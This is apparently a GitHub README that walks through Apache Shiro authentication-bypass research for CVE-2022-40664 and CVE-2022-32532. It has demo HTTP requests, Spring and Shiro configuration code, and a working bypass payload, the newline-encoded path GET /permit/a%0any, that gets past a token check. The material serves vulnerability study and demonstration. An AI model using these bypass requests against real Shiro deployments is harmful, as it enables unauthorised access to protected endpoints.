 # CVE-2022-40664 research walkthrough

> Apache Shiro before 1.10.0, Authentication Bypass Vulnerability in Shiro when forwarding or including via RequestDispatcher.

[![CVE-2022-40664 research walkthrough](https://image.yjs2635.xyz/images/2022/10/25/CVE-2022-40664-Research-Walkthrough2x.md.png)](https://youtu.be/mQrGYHKD8pk)

## walkthrough

```http request
GET /admin/auth_pass HTTP/1.1
```

```http request
GET /admin/auth HTTP/1.1
```

```http request
GET /admin/auth HTTP/1.1
Token: 4ra1n
```

## exchange redirect from forward ?

```java
    @RequestMapping("/admin/{value}")
    public String CVE_2022_40664_bypass(@PathVariable String value, HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        System.out.println("=========== /admin" +((HttpServletRequest)request).getRequestURI()+ "/ ===========");
		//        request.getRequestDispatcher("/admin/auth").forward(request, response);
		//        return "forward:"+((HttpServletRequest)request).getRequestURI();
        response.sendRedirect("/admin/auth");
        return ("Redirect:/admin/auth");
    }
```

## shiro 1.10.0

```java
    @Bean
    public MyShiroFilterFactoryBean filterRegBean(SecurityManager securityManager) throws Exception {
        // CVE-2022-40664
        // fixed conf
        ShiroFilterConfiguration conf = new ShiroFilterConfiguration();
        conf.setFilterOncePerRequest(false);

        ShiroFilterFactoryBean shiroFilterFactoryBean = new ShiroFilterFactoryBean();
        shiroFilterFactoryBean.setSecurityManager(securityManager);
        shiroFilterFactoryBean.setShiroFilterConfiguration(conf);
        AbstractShiroFilter filter = shiroFilterFactoryBean.getObject();

        MyShiroFilterFactoryBean reg = new MyShiroFilterFactoryBean();
        reg.setFilter(filter);
        reg.addUrlPattern("/*");
        reg.setName("shiroFilter");
        reg.setSecurityManager(securityManager);
        reg.setDispatcherTypes(EnumSet.allOf(DispatcherType.class));
        //fixed conf end.
        return reg;
```

Do not work.

## reference

- [^1] [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532){:target="_blank"}
- [^2] [defining a bean named 'shiroFilterFactoryBean'](https://blog.csdn.net/hanzl1/article/details/104228376){:target="_blank"}
- [^3] [CVE-2022-40664](https://juejin.cn/post/7154702383720136718#heading-0){:target="_blank"}
- [^4] [Shiro 1.7和1.10对于forward请求的处理](https://blog.csdn.net/xyjy11/article/details/127324055){:target="_blank"}
- [^5] [SpringBoot整合shiro-spring-boot-web-starter](https://blog.csdn.net/liu320yj/article/details/109090797){:target="_blank"}
- [^6] [[ANNOUNCE][CVE-2022-32532] Apache Shiro 1.9.1 released](https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh){:target="_blank"}

# [Lay0us1/CVE-2022-32532](https://github.com/Lay0us1/CVE-2022-32532)

## about

This is a demo project, which only shows one of the conditions for exploiting this vulnerability (CVE-2022-32532). 

In fact, there are more ways to exploit it, as long as developers use `RegExPatternMatcher`, there will be a possible bypass vulnerability.

## introduce

Token request header verification is required under the current configuration, otherwise you do not have permission to access the interface under `/permit`

This request can succeed
```http request
GET /permit/any HTTP/1.1
Token: 4ra1n
```

Access is not allowed when there is no token request header
```http request
GET /permit/any HTTP/1.1
```

It can be bypassed in a simple way in special but common configurations
```http request
GET /permit/a%0any HTTP/1.1
```

## reference

https://lists.apache.org/thread/y8260dw8vbm99oq7zv6y3mzn5ovk90xh

This vulnerability is similar to Spring-Security [CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)

Thanks to [bdemers](https://github.com/bdemers) (Apache Shiro PMC) and [chybeta](https://github.com/chybeta) (Security Researcher)